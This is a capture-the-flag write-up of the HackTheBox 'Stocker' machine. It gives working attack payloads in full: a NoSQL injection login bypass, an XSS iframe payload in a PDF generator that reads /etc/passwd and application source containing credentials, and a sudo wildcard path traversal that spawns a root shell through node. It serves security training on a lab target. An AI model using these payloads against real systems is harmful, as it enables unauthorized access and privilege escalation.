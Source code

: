 ```yaml
---
title: HackTheBox - Stocker
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2023-06-10
tags: [xss, lfi, nosqli, wildcard, node, pdf]
img_path: /Writeups/HackTheBox/Linux/Stocker/images/
image:
  src: Pasted%20image%2020230625002217.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```



# Overview 
Machine begins with a subdomain enumeration, discovering `dev.stocker.htb`, where it is susceptible to a `NoSQLi` login bypass. Exploiting this vulnerability granted access to the cart checkout page, which was found to be vulnerable to a cross-site scripting to local file inclusion (XSS2LFI) attack. By leveraging the XSS vulnerability, it was possible to perform local file inclusion (LFI) and gain access to the `index.js` file, which contained credentials for the user `angoose`.

Next, it was observed that the user `angoose` possessed the privilege to execute the command `sudo /usr/bin/node /usr/local/scripts/*.js`. The usage of the wildcard (`*`) in the command created a vulnerability that allowed for directory traversal, enabling the execution of a malicious payload. privilege escalating us to `root`.


---

| Column       | Details      |
| ------------ | ------------ |
| Box Name     | Stocker      |
| IP           | 10.10.11.196 |
| Points       | 20           |
| Difficulty   | Easy         |
| Creator      |          [JoshSH](https://www.hackthebox.com/home/users/profile/269501)     |
| Release Date | 14 Jan 2023             |


# Recon

## TCP/80 (HTTP)
- FFUF
	- Could not enumerate any interesting files
- Enumerate for subdomains
	```
	┌──(root💀kali)-[~/htb/stocker]
	└─# ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 301
	
	dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 249ms]
	```
	> `dev.stocker.htb` - add it to your `/etc/hosts`
	{: .prompt-info}

# Initial Foothold

## TCP/80 (HTTP) - NoSQLi
1.  Proceed to `http://dev.stocker.htb`, found a login page
2. With `webappalyzer` found that page is running on `node.js`
	![](Pasted%20image%2020230610175108.png)
	> Since it is `node.js` , we can try NoSQLi
	{: .prompt-info}
3. NoSQLi worked
	```
	# Payload
	POST /login HTTP/1.0
	Host: dev.stocker.htb
	User-Agent: Mozilla/5.0 (Hydra Proxy)
	Content-Length: 59
	Content-Type: application/json
	Cookie: connect.sid=s%3AqAR-6lAK22yFu_5EbRGEq3zlLw0ch7dB.fQcRonylfrEFjjkKqs6H6wQgHouF%2FBB7btxpEfskgbA
	Connection: close
	
	{"username": {"$ne": null}, "password": {"$ne": null} }
	```
	> - Change content type to `application/json`
	{: .prompt-info}
4. Demo - NoSQLi 
	![](uLV6UuMCM9.gif)
5. Web directory
	![](Pasted%20image%2020230610233351.png)
	>`/var/www/dev/`
	{: .prompt-info}

## TCP/80 - XSS2LFI
1. Add items to cart and checkout, intercept w/ `burp`
	![](Pasted%20image%2020230610232347.png)
	> There are a lot of parameters that could be vulnerable, we'll have to try them one by one
	{: .prompt-info}
2. Download the purchase order to look at the metadata w/ `exiftool`
	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# exiftool asdf.pdf
	ExifTool Version Number         : 12.44
	File Name                       : asdf.pdf
	Directory                       : .
	File Size                       : 41 kB
	File Modification Date/Time     : 2023:06:10 23:10:55+08:00
	File Access Date/Time           : 2023:06:10 23:10:54+08:00
	File Inode Change Date/Time     : 2023:06:10 23:11:06+08:00
	File Permissions                : -rw-r--r--
	File Type                       : PDF
	File Type Extension             : pdf
	MIME Type                       : application/pdf
	PDF Version                     : 1.4
	Linearized                      : No
	Page Count                      : 1
	Tagged PDF                      : Yes
	Creator                         : Chromium
	Producer                        : Skia/PDF m108
	Create Date                     : 2023:06:10 15:05:00+00:00
	Modify Date                     : 2023:06:10 15:05:00+00:00
	```
	>`Skia/PDF m108` - Google it
	{: .prompt-info}
3. `title` parameter is susceptible to `XSS`, allowing us to do LFI
	```
	# Payload
	"title":"<iframe src=/etc/passwd>",
	```
	![](Pasted%20image%2020230610233121.png)

4. View `index.js` (Because web running on `node.js`)
	```
	# Payload
	"title":"<iframe width=1000 height=1000 src=/var/www/dev/index.js></iframe>"
	```
	![](Pasted%20image%2020230610234140.png)
	>`dev:IHeardPassphrasesArePrettySecure`
	{: .prompt-info}


## TCP/22 (SSH) 
1. Since `dev` user does not exist, `ssh` into user `angoose`
	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
	Last login: Sat Jun 10 00:32:45 2023 from 10.10.14.2
	angoose@stocker:~$ id;whoami
	uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
	angoose
	angoose@stock
	```

# Privilege Escalation

## Root - Wildcard + Node Sudo
1. User `angoose` sudo access
	```
	angoose@stocker:/var/www/dev$ sudo -l
	Matching Defaults entries for angoose on stocker:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User angoose may run the following commands on stocker:
	    (ALL) /usr/bin/node /usr/local/scripts/*.js
	```
	> - The usage of `*` makes this sudo privilege vulnerable, we are able to do directory traversal and point `/usr/bin/node` to any file we want 
	> - `/usr/local/scripts/../../../../../../tmp/something.js` works 
	{: .prompt-info}
2. Create payload `/tmp/exploit.js`
	```
	angoose@stocker:/var/www/dev$ nano /tmp/exploit.js
	require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
	angoose@stocker:/var/www/dev$ chmod +x /tmp/exploit.js
	```
3. Execute our exploit w/ `/usr/bin/node` to `root`
	```
	# Payload
	sudo /usr/bin/node /usr/local/scripts/../../../../../../../tmp/exploit.js
	```

4. Demo - `Node` sudo + wildcard
	![](WVtAYUrw1W.gif)
